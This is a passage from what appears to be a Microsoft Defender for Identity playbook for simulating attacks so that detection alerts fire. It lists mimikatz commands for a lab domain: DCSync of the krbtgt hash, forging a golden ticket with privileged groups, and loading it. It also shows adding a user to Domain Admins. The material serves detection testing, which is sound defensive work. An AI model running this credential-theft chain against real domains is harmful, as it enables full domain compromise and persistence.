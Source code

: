 `mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt` => to get the krbgt's password hash needed for the /rc4:...  
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:XYZ /id:500 /groups:513,512,520,518,519,1107 /ticket:XYZ.kirbi` => create a fake TGT for the nonexistent account and add sensitive RID groups (valid for 2àmn)
`mimikatz # kerberos::ptt XYZ.kirbi` => load the fake TGT
`klist` => check if the TGT is loaded
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for nonexistent account detection  

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspected Golden Ticket encryption downgrade alert.](media/playbooks/golden-ticket-encryption-downgrade.png)  
![Suspected Golden Ticket nonexistent account alert.](media/playbooks/golden-ticket-nonexistent-account.png)  

## Suspicious additions to sensitive groups

For details about this alert, see [Suspicious additions to sensitive groups (external ID 2024)](persistence-privilege-escalation-alerts.md#suspicious-additions-to-sensitive-groups-external-id-2024).

Attackers could add users to highly privileged groups to gain access to more resources, and gain persistency. This alert needs a machine learning period (such as: this user usually doesn't perform this addition to sensitive groups).

From a workstation with RSAT, start with a domain admin account:  

`dsa.msc`  => and add a user to a sensitive group such as Enterprise Admins or Domain Admins  

Tools available from: <https://www.microsoft.com/download/details.aspx?id=45520>  

You should see the activities and the alert in the user timeline:  

![Suspicious additions to sensitive groups alert.](media/playbooks/additions-sensitive-groups.png)  

Detail in the alert:  

![Suspicious additions to sensitive groups alert details.](media/playbooks/additions-sensitive-groups-details.png)  

## Next steps

- [Microsoft Defender for Identity Security Alerts](alerts-overview.md)
